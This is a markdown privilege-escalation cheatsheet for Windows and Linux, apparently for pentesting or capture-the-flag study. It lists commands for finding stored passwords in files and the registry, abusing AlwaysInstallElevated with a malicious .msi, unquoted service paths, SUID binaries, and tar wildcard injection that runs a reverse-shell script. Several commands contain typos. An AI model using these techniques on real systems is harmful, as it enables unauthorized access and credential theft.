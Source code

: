 # Privilege Escalation cheatsheet

## Windows

### Automation scripts
[WinPeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

### Kernel 
```
systeminfo -> look up missing kb's
systeminfo | findstr /B /C:"OS Name" /C:"OS * Version"`
sherlock -> Find-AllVulns powershell
```
#### Config files 

#### Group policy 
Only applicable for devices connected to a domain
```
Groups.xml`stored in SYSVOL -> DC
  encrypted with AES, but key got leaked
 \\dc2018.lab\SYSVOL\dc2008.lab\Policies\{id}\MACHINE\Preferences\Groups`
```

#### other files 
```
Services\Services.xml
ScheduldedTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```
#### Other Misc Passwords 
```
dir /s *pass* == *cred* == *vnc* == *.config*
 findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
web.config
php.ini
httpd.conf
access.log
```

##### Always Install Elvated:
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated 
reg query HKCU\SOFTWARE\Policies\Micorosft\Windows\Installer\AlwaysInstalledElevated
both values = 1, created a malicious .msi file with msfvenom for example
execute it with msiexec /quiet /qn /i <filename>
```
### Unquoted Services Paths (trusted service paths)
each space in a file path, windows will attempt to look for and execute programs with a name that matches the word in front of the space
<br> Example: <br>
* C:\Program Files\Some Folder\Service.exe
* C:\Program.exe
* C:\Program Files\Some.exe
* C:\Program Files\Some Folder\Service.exe
```
Command to look for such service: wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
### Insecure Service Permissions
Check write access to a service as authenticated user
```
Commands: 
1. whoami 
2. net user <username>
3. accesschk.exe` -> part of sysinternals
4. accesschk.exe -ucqv <service>
5. accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

### DLL Hijacking
Requires user interaction / reboot.
<br> Search order: 
```
1. The directory from which the application is loaded
2. 32-bit System directory (C:\Windows\System32)
3. 16-bit System directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. The current working directory
6. Directories in the PATH environment variable
```
## Linux 

### Automation scripts 
[linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) <br>
[linenum.sh](https://github.com/rebootuser/LinEnum)
### Kernel Exploit 
```
Command to look for system kernel version: uname -a
tools used: searchsploit
```
### Services running as root 
any shell escape sequences?
```
Command: ps -aux | grep root 
```
### SUID executables 
runs with permissions of the owner
```
command: find / -perm -u=s -type f 2>/dev/null
```
### Sudo rights 
what can we execute -> any shell escape sequences

### Wildcard 
* often combined with user interaction / cronjobs
* wild cards can be utilized to inject arbitrary command by creating files that are seen as commands
Example: 
```
--checkpoint=<number> and --checkpoint-action=<command>
--checkpoint=1 and --checkpoint-actionexec=sh rshell.sh
```
### PATH abuse 
Requires user interaction

```
* `$PATH:.:${PATH}`
* `export $PATH`
* `echo $PATH`
* replace executable files with a malicious one
```

# References
https://0xsp.com/offensive/privilege-escalation-cheatsheet
https://www.fuzzysecurity.com/tutorials/16.html
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/rebootuser/LinEnum
